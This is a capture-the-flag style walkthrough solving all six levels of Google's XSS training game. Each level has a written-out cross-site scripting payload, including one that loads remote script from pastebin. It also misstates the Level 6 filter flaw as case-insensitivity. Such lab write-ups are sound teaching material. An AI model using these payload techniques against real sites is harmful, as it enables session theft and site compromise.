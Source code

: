 ## Cross-site scripting (XSS)Cross-site scripting (XSS)

*https://xss-game.appspot.com/*

This is a note of practicing the xxs 

## Level 1
This is the most obvious and easiest one. Just insert following code and you're done:
```
<script>alert(1)</script>
```

## Level 2
Since the script won't work you'll have to think of another tags to trigger JavaScript code execution. The first thing which came in mind was to use img tags along with the onerror attributes. Here you go:
```
<img src="http://inexist.ent" onerror="javascript:alert(1)"/>
```
## Level 3
Well this time I had to read some code in order to understand the applications logic. If you toggle the code you'll see index.html:

```
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
```
As you see the num parameter is used to generate the img tag. The ideas was to break-out the quotes and insert some sneaky javascript code. Again I've used the onerror attribute to insert JS. Insert this into the URL address bar and you'll get your alert():
```
https://xss-game.appspot.com/level3/frame#3' onerror='alert(1)';
"Image " + parseInt(num) = Image + 3' onerror='alert(1)';
```
## Level 4
This is quite tricky. This time I have followed the provided hints. Having the JS console activated and requesting https://xss-game.appspot.com/level4/frame?timer=' showed me following output:


https://xss-game.appspot.com/level4/frame?timer=')%3Balert(1)%3Bvar b=('
```
    startTimer('');alert(1);var b=('');
```


## Level 5
This one was quite easy. On the first page you can see a link: https://xss-game.appspot.com/level5/frame/signup?next=confirm. Now let's have a look how this next parameter is used in confirm.html:

```
      <script>
            setTimeout(function() { window.location = '{{ next }}'; }, 5000);
      </script>
```
So the window.location is set based on the next parameter. This is a typical case for DOM based XSS. Besides that we have in signup.html:

```
      <br><br>
          <a href="{{ next }}">Next >></a>
      </body>
```
Again the next parameter is used as an a tag target. Ok, enough bla bla. Here is the PoC:

Go to https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)

Insert your Mail

Click Next >>

Voila!
## Level 6
This time I had to figure to host my JS code. So I've used pastebin.com to host my evil code. Next I had a look at the code. As you can read a new script tag is created and the src attribute is set appropriately. The only catch about it: You're not allowed to have a URL containing https?:

```
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
```
Afterwards the text after the hash is used as the scripts src:
```
      // Load this awesome gadget

      scriptEl.src = url;
```
Have you noticed something about the regexp? No?! Seriously not? Ok. It's not case-sensitive. You can escape it by using hTTps or any other combination. So the final PoC:

https://xss-game.appspot.com/level6/frame#htTps://pastebin.com/raw.php?i=15S5qZs0
Conclusion
This was a great game to play with. After all I must say the levels were not that difficult but a really good opportunity to refresh my XSS skills :)

http://blog.dornea.nu/2014/06/02/googles-xss-game-solutions/
